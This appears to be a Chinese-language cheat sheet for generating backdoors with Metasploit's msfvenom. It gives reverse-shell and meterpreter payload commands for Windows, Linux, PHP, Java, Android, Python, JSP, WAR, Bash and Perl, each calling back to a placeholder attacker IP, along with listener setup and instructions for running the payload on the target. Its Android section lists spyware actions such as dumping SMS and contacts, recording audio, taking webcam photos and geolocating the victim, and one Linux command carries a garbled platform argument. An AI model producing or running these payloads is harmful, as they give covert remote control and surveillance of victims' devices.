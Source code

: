 # msf生成各种后门

>  后门植入思路：生成后门->上传后门->目标机wget->运行后门程序

### 生成Windows后门

```msf
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=<HACKER IP> LPORT=<HACKER PORT> -b "\x00" -e x86/shikata_ga_nai -i 7 -f exe -o /opt/wins.exe
```

### 生成linux后门

```msf
msfvenom -p linux/x86/meterpreter/reverse_tcp --platform windows linux LHOST=<HACKER IP> LPORT=<HACKER PORT> -f elf > /opt/hat
```

msfconsole中配置

```msf
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost,lport
exploit
```

### 生成PHP后门

```msf
msfvenom -p php/meterpreter/reverse_tcp LHOST=<HACKER IP> LPORT=<HACKER PORT> -f raw >config.php
```

msfconsole中配置

```msf
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost,lport
exploit
```

目标机运行

```cmd
php ./config.php
```

### 生成Java后门

```msf
msfvenom -p java/meterpreter/reverse_tcp LHOST=<HACKER IP> LPORT=<HACKER PORT> -o /opt/JavaBean.jar
```

msfconsole中配置

```msf
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set lhost,lport
exploit
```

目标机运行

```msf
java -jar ./JavaBean.jar
```

### 生成Android后门

```msf
msfvenom -p android/meterpreter/reverse_tcp LHOST=<HACKER IP> LPORT=<HACKER PORT> R > /root/javajdk.apk
```

msfconsole中配置

```msf
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost,lport
exploit
```

常用操作

```msf
check_root    #查看是否root
dump_calllog    #下载通讯记录
dump_contacts   #下载联系人
dump_sms    #下载短信
send_sms    #发送短信
record_mic    #录音
webcam_list   #查看手机摄像头
webcam_snap   #拍照
webcam_stream   #连续拍照
geolocate   #获取目标地理位置
upload    #上传文件到手机
download    #下载手机上的文件
shell   #进入手机的bash shell
```
### Python后门

```msf
msfvenom -p cmd/unix/reverse_python LHOST=<HACKER IP> LPORT=<HACKER PORT> -f raw > shell.py
```

### JSP后门

```msf
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<HACKER IP> LPORT=<HACKER PORT> -f raw > /opt/action.jsp
```

### war后门

```msf
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<HACKER IP> LPORT=<HACKER PORT> -f war > web.war
```


### Bash后门

```msf
msfvenom -p cmd/unix/reverse_bash LHOST=<HACKER IP> LPORT=<HACKER PORT> -f raw > bash.sh 
```

### Perl后门

```msf
msfvenom -p cmd/unix/reverse_perl LHOST=<HACKER IP> LPORT=<HACKER PORT> -f raw > perl.pl
```

